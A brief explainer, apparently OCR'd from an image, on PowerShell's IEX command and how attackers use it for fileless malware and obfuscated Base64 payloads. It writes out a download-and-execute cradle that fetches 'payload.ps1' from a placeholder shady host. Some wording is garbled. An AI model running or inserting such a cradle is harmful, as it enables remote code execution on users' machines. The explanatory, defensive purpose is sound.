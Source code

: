 "IEX"
Reputation Proceeds it due to its ability to run code fetched from external (often untrusted) sources:
IEX ([[New-Object Net.WebClient]]).DownloadString('http://some.shady.site/payload.ps1')

This command is to be used sparingly, and only with trusted input.

**What does it do?**
- It takes a string and runs it as PowerShell code—sort of like eval() in many programming languages.

**Common Malicious Usage**
- **Fileless malware:** Attackers love to fetch evil code directly into memory—no file for antivirus to catch!
- **Obfuscation:** Crooks will Base64 encode payloads, then use `IEX` to decode and execute.
- **Living off the land:** Because `IEX` is built-in, it often flies under the radar if defenders aren’t vigilant.
Example:  IEX ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('Z2V0LXByb2Nlc3M=')))